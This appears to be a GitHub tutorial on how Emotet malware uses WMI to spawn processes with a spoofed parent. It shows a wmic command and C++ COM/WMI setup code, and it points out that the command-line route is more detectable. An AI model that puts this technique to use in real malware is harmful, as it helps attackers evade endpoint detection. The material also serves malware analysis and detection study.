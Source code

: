 ### Emotet Malware 

Emotet is a malware. Originally intended to steal banking information, its malware has since diversified. It was distributed mainly through phishing campaigns. The malware uses Spearphishing emails with malicious attachments sent to user, Users launch the malicious attachments delivered via spearphishing emails. **WMI was used to execute powershell.exe**.


![image](https://user-images.githubusercontent.com/75935486/153730523-892b9b98-2699-48c9-a919-5bc6d6824673.png)




### **EMOTET PPID Spoofing using WMI:**

we can try do it on CLI with Poweshell but it is more detectable because the command will be logged.

```powershell
PS > wmic /namespace:\\root\CIMV2 path Win32_Process call create "notepad.exe"
```
```json
{
   "ProcessId": 23468
   "ReturnValue": 0
}
```
**ReturnValue** is equal which means that the operation is completed successfully on PID 22396 (ProcessId).

![image](https://user-images.githubusercontent.com/75935486/153729571-33b13901-b82b-4307-95be-1ab6530fdeb0.png)



### **Using COM API and WMI for PPID Spoofing**

First we'll Initializes the COM library using `CoInitializeEx`, after that we will add security levels on COM with `CoInitializeSecurity` and we need to obtain the initial locator to WMI by calling CoCreateInstance.
```cpp
CoInitializeEx(0, COINIT_MULTITHREADED);
CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_DEFAULT, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE, NULL); // we can replace EOAC_NONE with 0 because EOAC_NONE is equal to 0.
CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER, IID_IWbemLocator, (LPVOID *) &pLoc);
```

for `CoInitializeSecurity` function, we simply use the default security for WMI.

![image](https://user-images.githubusercontent.com/75935486/153731697-1c4e8611-8449-4ede-86f6-35eba60fcce5.png)


Using the IWbemLocator interface will allow us to obtain the initial namespace pointer to the IWbemServices interface for WMI on a specific host computer. as a reminder, WMI is an implementation of WBEM.

**RPC_C_IMP_LEVEL_IMPERSONATE**

Specifies an impersonation level, which indicates the amount of authority given to the server when it is impersonating the client.
we use this level of impersonation to access local resources such as files. When impersonating at this level, the impersonation token can only be passed across one machine boundary.

**CLSCTX & CLSCTX_INPROC_SERVER**

CLSCTX Values that are used in activation calls to indicate the execution contexts in which an object is to be run.
**CLSCTX_INPROC_SERVER** will make sure that the code that creates and manages the objects of this class is a DLL that runs in the same process as the caller of the function specifying the class context.


once the instance is created we will need `pLoc` which is the pointer to this instance to connect to the local `rootCIMV2` namespace using `ConnectServer()` function. now that we are connected to the namespace, the pointer of this object is `pSvc`. Before accessing the namespace classes, we need to define security for the proxy with the `CoSetProxyBlanket()` function using the `pSvc` object pointer because this object needs a proxy to communicate with the classes.

**CoSetProxyBlanket()** function sets the authentication information that will be used to make calls on the specified proxy.

```cpp
pLoc->ConnectServer(_bstr_t(L"ROOT\\CIMV2"), NULL, NULL, 0, NULL, 0, 0, &pSvc);
CoSetProxyBlanket(pSvc, RPC_C_AUTHN_WINNT, RPC_C_AUTHN_NONE, NULL, RPC_C_AUTHN_LEVEL_CALL, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE);
```

After that we can Access to the Class and Specify a Method 

```cpp
IWbemClassObject * pClass = NULL;
hres = pSvc->GetObject(ClassName, 0, NULL, &pClass, NULL);
IWbemClassObject * pInParamsDefinition = NULL;
hres = pClass->GetMethod(MethodName, 0, &pInParamsDefinition, NULL);
IWbemClassObject * pClassInstance = NULL;
hres = pInParamsDefinition->SpawnInstance(0, &pClassInstance);
```

![image](https://user-images.githubusercontent.com/75935486/153729993-192b6fff-e24f-40fa-9756-0f1d2d14339c.png)
